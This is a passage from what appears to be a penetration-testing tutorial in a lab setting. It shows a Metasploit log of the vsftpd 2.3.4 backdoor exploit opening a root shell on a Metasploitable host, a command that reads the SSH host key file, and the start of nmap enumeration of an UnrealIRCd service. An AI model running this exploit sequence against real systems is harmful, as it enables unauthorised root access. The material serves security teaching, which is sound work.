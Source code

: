 ```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.3:21 - The port used by the backdoor bind listener is already open
[+] 192.168.100.3:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.100.101:46311 -> 192.168.100.3:6200) at 2024-01-25 08:44:39 -0500

whoami
root

cat /etc/ssh/ssh_host_rsa_key.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAstqnuFMBOZvO3WTEjP4TUdjgWkIVNdTq6kboEDjteOfc65TlI7sRvQBwqAhQjeeyyIk8T55gMDkOD0akSlSXvLDcmcd
YfxeIF0ZSuT+nkRhij7XSSA/Oc5QSk3sJ/SInfb78e3anbRHpmkJcVgETJ5WhKObUNf1AKZW++4Xlc63M4KI5cjvMMIPEVOyR3AKmI78Fo3HJjYucg87JjLeC66I7+d
lEYX6zT8i1XYwa/L1vZ3qSJISGVu8kRPikMv/cNSvki4j+qDYyZ2E5497W87+Ed46/8P42LNGoOV8OcX/ro6pAcbEPUdUEfkJrqi2YXbhvwIJ0gFMb6wfe5cnQew== 
root@metasploitable

exit
[*] 192.168.100.3 - Command shell session 1 closed.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

We exited the exploited shell with `exit`.  When back on the msfconsole prompt, you can unload this exploit via `back`.  To exit msfconsole, enter `exit`.

Although we won't do this, this process is one way that attackers perform exploits against targets on the Internet.


### UnrealIRCD Exploit

If you look back at the `nmap -sV` output from above, you will see this line:

```
6667/tcp open  irc         UnrealIRCd
```

[IRC](https://en.wikipedia.org/wiki/Internet_Relay_Chat), or Internet Relay Chat, is an instant messaging system.  It used to be very common many years ago, but has largely been replaced by other, more modern, applications.  It is running on port 6667 (the default port for `irc`).

The `-sV` options to `nmap` attempted to determine the version of UnrealIRCd running, but it was not able to do so with just those parameters.  `nmap` has a series of scripts that come with it, and these scripts can be utilized to find more information about a port, a service, or a vulnerability.  These scripts are in `/usr/share/nmap/scripts`, if you are interested.  We could ask `nmap` to run those scripts on a given host via `nmap --script irc-* metasploit`.  This means to run *all* the scripts found via `ls /usr/share/nmap/scripts/irc-*`.  There are scripts to brute force passwords (`irc-brute.nse`), find more information about the server (`irc-info.nse`), etc.  The brute force one, in particular, will take quite some time to run.  And we only want to find more information about the version number, so we decide to only use the `irc-info.nse` script.  As we know the port we want to investigate, we tell it to only look at that port (`-p 6667`), rather than all ports.
